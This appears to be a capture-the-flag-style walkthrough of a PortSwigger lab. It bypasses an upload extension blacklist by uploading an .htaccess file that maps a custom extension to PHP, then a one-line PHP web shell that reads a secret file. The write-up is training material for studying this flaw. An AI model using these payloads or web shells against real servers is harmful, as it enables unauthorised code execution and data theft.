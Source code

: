 [Source](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
## Task
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this protection can be
bypassed due to a fundamental flaw in the blacklist configuration.

To solve this task, download a basic PHP web shell and use it to get the contents of the file `/home/carlos/secret`. Submit this secret using the button provided on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that it is possible to upload an image.
Upload any image. In `Burp Suite`, go to `HTTP history`, click on filters and check `Images`. In the request history, find the `GET` request with our image. Send it to `Repeater`.

![image](images/20250627185530.png)


![image](images/20250627181933.png)

Now let's try to upload a PHP file and send this request to `Repeater`:

![image](images/20250627224708.png)

>Sorry, php files are not allowed

We cannot upload PHP files. Note that we are accessing `Server: Apache/2.4.41`. Change the `filename` parameter to `.htaccess` and the `Content-Type` header to `text/plain`. And replace the PHP code with:
```Request
AddType application/x-httpd-php .l33t
```
Send the request. Make sure the file has been uploaded to the server.

![image](images/20250627224556.png)

>The file avatars/.htaccess has been uploaded.

After that, return this request to its original form and change the `filename` parameter to `exploit.l33t`
```PHP
<?php echo system($_GET['command']); ?>
```

![image](images/20250627224615.png)

Now move on to the request that uploads the image to the page. In the first line of the request we add:
```URL
/files/avatars/exploit.l33t?command=cat+/home/carlos/secret
```

![image](images/20250627224328.png)

```Secret
i5JoNiwH7AfZA47402Vw3dvy8yzYa6pb
```

![image](images/20250627224354.png)

## How it works
1. **There is a "bad" filter.**
The server simply prohibits files with the `.php` extension, thinking that this is enough.
2. **But the folder is allowed to be "configured".**
Apache allows reading _every_ uploaded file as a possible `.htaccess`.
In such a file, you can specify the `AddType` directive, thereby stating: "Files with the extension `.l33t` are PHP scripts."
<div style="page-break-after: always;"></div>

3. **Two downloads - and the protection is bypassed.**

| Step | What to download | Result |
| --- | ----------------------------------------------------- | -------------------------------------------- |
| ① | `.htaccess` with `AddType application/x-httpd-php .l33t` | Now Apache treats `.l33t` as PHP |
| ② | `exploit.l33t` (a regular web shell) | The "extensions" filter is happy, but Apache will execute the file as PHP |
4. **Result.**
The browser accesses `/files/avatars/exploit.l33t` → Apache sees the "PHP type", executes the code, the file outputs the contents of `/home/carlos/secret`.
✔️ The filter was "by extension", and we added a new "allowed" extension ourselves. Therefore, the protection collapsed.